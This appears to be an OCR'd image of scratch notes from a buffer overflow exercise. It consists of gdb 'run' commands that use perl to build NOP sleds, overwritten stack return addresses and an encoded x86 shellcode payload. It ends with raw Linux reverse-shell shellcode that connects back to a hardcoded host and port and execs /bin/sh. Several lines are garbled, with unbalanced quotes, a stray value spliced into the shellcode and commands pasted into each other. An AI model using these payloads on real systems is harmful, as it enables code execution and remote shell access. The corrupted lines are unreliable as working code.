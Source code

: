 \x56\xd0\xff\xff

0xffffcee4


run $(perl -e 'print"\x90"x28, "\xb8\x27\xca\x51\xb6\xdb\xc5\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x12\x31\x45\x12\x83\xc5\x04\x03\x62\xc4\xb3\x43\x5d\x03\xc4\x4f\xce\xf0\x78\xfa\xf2\x7f\x9f\x4a\x94\xb2\xe0\x38\x01\xfd\xde\xf3\x31\xb4\x59\xf5\x59\x4d\x9a\x07\x96\x39\x98\x07\xb9\xe5\x15\xe6\x09\x73\x76\xb8\x3a\xcf\x75\xb3\x5d\xe2\xfa\x91\xf5\x93\xd5\x66\x6d\x04\x05\xa6\x0f\xbd\xd0\x5b\x9d\x6e\x6a\x7a\x91\x9a\xa1\xfd","\xe4\xce\xff\xff"')


run $(perl -e 'print"\x90"x60,"\xe4\xce\xff\xff"') "\xb8\x27\xca\x51\xb6\xdb\xc5\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x12\x31\x45\x12\x83\xc5\x04\x03\x62\xc4\xb3\x43\x5d\x03\xc4\x4f\xce\xf0\x78\xfa\xf2\x7f\x9f\x4a\x94\xb2\xe0\x38\x01\xfd\xde\xf3\x31\xb4\x59\xf5\x59\x4d\x9a\x07\x96\x39\x98\x07\xb9\xe5\x15\xe6\x09\x73\x76\xb8\x3a\xcf\x75\xb3\x5d\xe2\xfa\x91\xf5\x93\xd5\x66\x6d\x04\x05\xa6\x0f\xbd\xd0\x5b\x9d\x6e\x6a\x7a\x91\x9a\xa1\xfd"



\xb8\x27\xca\x51\xb6\xdb\xc5\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x12\x31\x45\x12\x83\xc5\x04\x03\x62\xc4\xb3\x43\x5d\x03\xc4\x4f\xce\xf0\x78\xfa\xf2\x7f\x9f\x4a\x94\xb2\xe0\x38\x01\xfd\xde\xf3\x31\xb4\x59\xf5\x59\x4d\x9a\x07\x96\x39\x98\x07\xb9\xe5\x15\xe6\x09\x73\x76\xb8\x3a\xcf\x75\xb3\x5d\xe2\xfa\x91\xf5\x90xffffd0553\xd5\x66\x6d\x04\x05\xa6\x0f\xbd\xd0\x5b\x9d\x6e\x6a\x7a\x91\x9a\xa1\xfd";


run $(perl -e 'print "\x90"x28 . "\xe4\xce\xff\xff"') "$(perl -e 'print "\xb8\x27\xca\x51\xb6\xdb\xc5\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x12\x31\x45\x12\x83\xc5\x04\x03\x62\xc4\xb3\x43\x5d\x03\xc4\x4f\xce\xf0\x78\xfa\xf2\x7f\x9f\x4a\x94\xb2\xe0\x38\x01\xfd\xde\xf3\x31\xb4\x59\xf5\x59\x4d\x9a\x07\x96\x39\x98\x07\xb9\xe5\x15\xe6\x09\x73\x76\xb8\x3a\xcf\x75\xb3\x5d\xe2\xfa\x91\xf5\x93\xd5\x66\x6d\x04\x05\xa6\x0f\xbd\xd0\x5b\x9d\x6e\x6a\x7a\x91\x9a\xa1\xfd"') 


run $(perl -e 'print "\x90"x71 . "\x30\xcd\xff\xff". 'print "\x90"x96 ."\xb8\x27\xca\x51\xb6\xdb\xc5\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x12\x31\x45\x12\x83\xc5\x04\x03\x62\xc4\xb3\x43\x5d\x03\xc4\x4f\xce\xf0\x78\xfa\xf2\x7f\x9f\x4a\x94\xb2\xe0\x38\x01\xfd\xde\xf3\x31\xb4\x59\xf5\x59\x4d\x9a\x07\x96\x39\x98\x07\xb9\xe5\x15\xe6\x09\x73\x76\xb8\x3a\xcf\x75\xb3\x5d\xe2\xfa\x91\xf5\x93\xd5\x66\x6d\x04\x05\xa6\x0f\xbd\xd0\x5b\x9d\x6e\x6a\x7a\x91\x9a\xa1\xfd"') 

"\xb8\x27\xca\x51\xb6\xdb\xc5\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x12\x31\x45\x12\x83\xc5\x04\x03\x62\xc4\xb3\x43\x5d\x03\xc4\x4f\xce\xf0\x78\xfa\xf2\x7f\x9f\x4a\x94\xb2\xe0\x38\x01\xfd\xde\xf3\x31\xb4\x59\xf5\x59\x4d\x9a\x07\x96\x39\x98\x07\xb9\xe5\x15\xe6\x09\x73\x76\xb8\x3a\xcf\x75\xb3\x5d\xe2\xfa\x91\xf5\x93\xd5\x66\x6d\x04\x05\xa6\x0f\xbd\xd0\x5b\x9d\x6e\x6a\x7a\x91\x9a\xa1\xfd"



run $(perl -e 'print "\x90"x71 . "\xe4\xcd\xff\xff"') $(perl -e 'print "\x90"x9run $(perl -e 'print "A"x60)6 . "\xe4\xce\xff\xff"')


run $(perl -e 'print"\x90"x60, "\xe4\xce\xff\xff")


"$(cat payload_final)"



run $(perl -e 'print "\x90"x60 . "\xe4\xce\xff\xff"') "$(cat payload_final)"



"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd"
"\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02"
"\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3"
"\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f"
"\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
